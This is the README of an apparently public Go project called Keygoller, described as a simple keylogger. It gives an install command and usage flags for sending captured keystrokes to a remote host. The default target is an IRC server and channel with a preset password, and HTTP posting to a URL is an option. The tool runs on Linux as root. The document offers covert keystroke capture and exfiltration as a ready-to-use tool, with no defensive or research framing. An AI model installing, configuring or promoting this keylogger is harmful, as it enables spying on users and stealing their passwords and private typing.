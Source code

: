 # Keygoller

> Simple keylogger implementation in Go

## Installation

```sh
go get -u github.com/rotsix/keygoller
```

## Usage

```sh
Usage of keygoller:
  -channel string
    	channel to send strokes to (IRC) (default "#keylolgger")
  -host string
    	host to send strokes to (default "chat.freenode.net")
  -pass string
    	password associated to the user (default "hunter2")
  -port int
    	port to send strokes to (default 6667)
  -protocol string
    	protocol to use to send strokes (default "debug")
  -request string
    	type of request to send (HTTP) (default "post")
  -size int
    	number of strokes to get before sending (default 512)
  -url string
    	url to send strokes to (HTTP) (default "/data")
  -user string
    	user to connect with (default "Guest74629")
```

It only works on Linux for now, and must be run as root.

The logger supports the following protocols:

- debug: print to `stdout`
- IRC: fill the `-host`, `-port`, `-channel` and `-user` flags
- HTTP: not yet
